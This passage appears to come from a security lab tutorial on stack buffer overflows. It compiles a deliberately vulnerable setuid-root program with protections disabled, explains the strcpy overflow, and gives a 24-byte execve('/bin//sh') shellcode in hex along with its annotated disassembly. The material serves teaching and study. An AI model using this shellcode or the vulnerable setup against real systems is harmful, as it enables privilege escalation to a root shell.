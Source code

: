 ```bash
$ gcc -g -z execstack -fno-stack-protector stack.c -o stack
$ cp stack stack-root
$ sudo chown root stack-root
$ sudo chmod 4755 stack-root
```

Have a look at the source code.
The program is set to read a file `badfile` (this use of a file means we don't have to worry as much about control characters like in the last lab) and copies it into a buffer.
But while the `fread` command is limited to 517 bytes, line 14:

```C
strcpy(buffer, str);
```

... runs until it sees a `0x00` byte, yet copies into a buffer that is only 24 bytes long.
This is an obvious overflow vulnerability.

Make a file called `shellcode` and paste the following values:

```
31 c0 50 68 2f 2f 73 68
68 2f 62 69 6e 89 e3 50
53 89 e1 99 b0 0b cd 80
```

Then run `xxd -p -r shellcode > badfile` to hex-decode it to the file that the vulnerable program will read.
Whenever you modify your shellcode, rerun this command.

Let's take a look at what it does:

```
31 c0 xorl %eax, %eax ; clear eax
50 pushl %eax ; put a 0-pointer on the stack
68 2f 2f 73 68 pushl "//sh" ; the command to call
68 2f 62 69 6e pushl "/bin"
89 e3 movl %esp, %ebx ; ebx points at the command
50 pushl %eax ; another 0-pointer
53 pushl %ebx ; points at the command
89 e1 movl %esp, %ecx ; pointer to pointer to command
99 cdq ; this zeroes out edx
b0 0b movb $0x0b, %al ; execve syscall number
cd 80 int $0x80 ; syscall
```

We store `/bin//sh` with an extra `/` (that `execve` doesn't mind) since the `0x68` (`pushl`) instruction takes a 4-byte argument, and we don't want to include an `0x00` byte in our shellcode.
When we call `int 0x80`, the stack and registers look like this:

![Shellcode](../diagrams/shellcode.png)
